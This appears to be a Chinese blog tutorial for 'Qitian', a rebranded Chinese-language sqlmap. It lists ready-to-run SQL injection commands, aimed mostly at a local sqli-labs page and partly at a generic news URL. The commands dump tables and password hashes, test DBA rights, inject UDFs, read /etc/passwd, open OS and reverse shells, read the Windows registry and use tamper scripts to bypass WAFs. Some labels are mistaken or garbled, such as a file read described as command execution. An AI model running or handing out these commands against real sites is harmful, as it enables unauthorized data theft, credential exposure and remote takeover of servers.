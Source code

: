 @[TOC](超详细！魔改为中文sqlmap的使用教程)
## 
魔改了一版中文版的SQLMAP，如下图：

 下面是由猫鼠信安团队，魔改为中文版的sqlmap，Qitian功能参数一模一样，
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/801ec7ff2c8f4432a525ec7aaefa913e.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/60382cf2fe6c4b42b7e8794955f4b747.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5731ccf6bf5a4cba88eb9bdbbe8dc8ac.png)




## 2.Qitian基础信息

 

 获取当前用户名称

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --current-user


获取当前数据库名称

 

 

 >python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --current-db


获取表名

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security --tables


获取字段

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security -T users --columns


获取字段内容

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security -T users -C id --dump


3.Qitian进阶信息内容

执行测试等级

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --level 2
>指定数据库类型

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --dbms "Mysql"
>列数据库用户

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --users


列数据库

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --dbs


数据库用户密码

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --passwords


列出指定用户数据库密码

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --passwords -U root


查看权限

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --privileges
>查看指定用户权限

 

p>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --privileges -U root


是否是数据库管理员

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --is-dba


枚举数据库用户角色

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --roles


导入用户自定义函数（获取系统权限！）

 

Qitian/Qitian.py -u "http://url/news?id=1"   --udf-inject


cookie注入

 

python Qitian/Qitian.py -u "http://url/news?id=1"   --cookie "COOKIE_VALUE"


获取banner信息

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -b


post注入

 


>python Qitian/Qitian.py -u "http://url/news?id=1" --data "id=3"


指纹判别数据库类型

 


>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -f


代理注入

 


>python Qitian/Qitian.py -u "http://url/news?id=1"  --proxy"http://127.0.0.1:8118"


指定关键词

 

 

 

 

 


>python Qitian/Qitian.py -u "http://url/news?id=1"--string"STRING_ON_TRUE_PAGE"

执行系统命令


>python Qitian/Qitian.py -u "http://url/news?id=1"   --file /etc/passwd

统交互shell


>python Qitian/Qitian.py -u "http://url/news?id=1"   --os-shell

反弹shell


>python Qitian/Qitian.py -u "http://url/news?id=1"   --os-pwn

读取win系统注册表

 

>python Qitian/Qitian.py -u "http://url/news?id=1"   --reg-read


保存进度

 

>python Qitian/Qitian.py -u "http://url/news?id=1"    --dbs-o "Qitian.log"


恢复已保存进度

 

>python Qitian/Qitian.py -u "http://url/news?id=1"    --dbs  -o "Qitian.log" --resume


## 3.Qitian绕过WAF

>python Qitian/Qitian.py -u "http://url/news?id=1"    --tamper 指定脚本
